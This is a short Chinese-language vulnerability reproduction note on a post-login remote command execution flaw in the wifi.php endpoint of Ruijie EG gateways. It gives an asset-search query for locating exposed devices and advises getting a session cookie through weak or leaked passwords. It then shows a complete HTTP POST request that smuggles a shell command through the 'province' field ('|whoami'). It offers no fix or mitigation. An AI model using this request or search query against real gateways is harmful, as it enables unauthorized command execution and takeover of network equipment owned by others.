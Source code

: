 # 锐捷 EG易网关wifi.php存在后台远程命令执行漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">锐捷 EG易网关cli存在后台远程命令执行漏洞。  
</font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**

```java
锐捷EG易网关
```

<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**

```java
app="Ruijie-EG易网关"
```

<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">●登录页面</font>

![1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553.png](./img/gsYMn6zWg3mjpLNP/1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553-492488.png)

# <font style="color:rgb(38, 38, 38);">四、漏洞复现</font>
1. 通过弱口令或账号密码泄露漏洞登录后台获取cookie

![1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c.png](./img/gsYMn6zWg3mjpLNP/1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c-000905.png)

2. 通过上一步获取的cookie执行命令

```java
POST /itbox_pi/wifi.php?a=branch_wifi HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: LOCAL_LANG_COOKIE=zh; RUIJIEID=ihvlofd9j5bfjbikfrtng7p9f5; helpKey=home_sys;user=admin
X-Requested-With: XMLHttpRequest
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 16

province=|whoami
```

![1714060259608-a34db878-2cb8-4637-b828-d46fdaf7a329.png](./img/gsYMn6zWg3mjpLNP/1714060259608-a34db878-2cb8-4637-b828-d46fdaf7a329-361904.png)



> 更新: 2024-06-24 11:42:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vvrupv8a2wx05wyc>